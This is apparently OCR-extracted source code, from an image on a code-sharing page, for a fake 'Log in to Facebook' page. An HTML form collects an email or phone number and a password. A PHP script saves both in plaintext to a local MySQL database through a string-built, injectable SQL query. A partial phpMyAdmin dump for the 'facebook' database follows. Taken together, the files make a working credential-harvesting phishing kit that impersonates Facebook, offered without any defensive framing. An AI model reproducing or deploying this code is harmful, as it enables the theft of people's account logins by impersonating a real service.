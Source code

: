     button:hover {
      background-color: #1262af;
    }
  </style>
</head>
<body>
  <div class="container">
    <h2>Log in to Facebook</h2>
    <form name="f" action="facebook.php" method="post">
      <label for="email">Email or Phone:</label>
      <input type="text" id="email" name="email" required>
      
      <label for="password">Password:</label>
      <input type="password" id="password" name="password" required>
      
      <button type="submit">Log In</button>
    </form>
  </div>
</body>
</html>
<?php
$email=$_POST["email"];
$password=$_POST["password"];
$cnx=mysqli_connect("localhost","root","","facebook");
$req="INSERT into login values('$email','$password')";
$res=mysqli_query($cnx,$req);
?>
-- phpMyAdmin SQL Dump
-- version 5.2.0
-- https://www.phpmyadmin.net/
--
-- Hôte : 127.0.0.1
-- Généré le : mar. 23 mai 2023 à 13:19
-- Version du serveur : 10.4.27-MariaDB
-- Version de PHP : 8.2.0

SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
START TRANSACTION;
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;

--
-- Base de données : `facebook`
--

-- --------------------------------------------------------

--
-- Structure de la table `login`
--
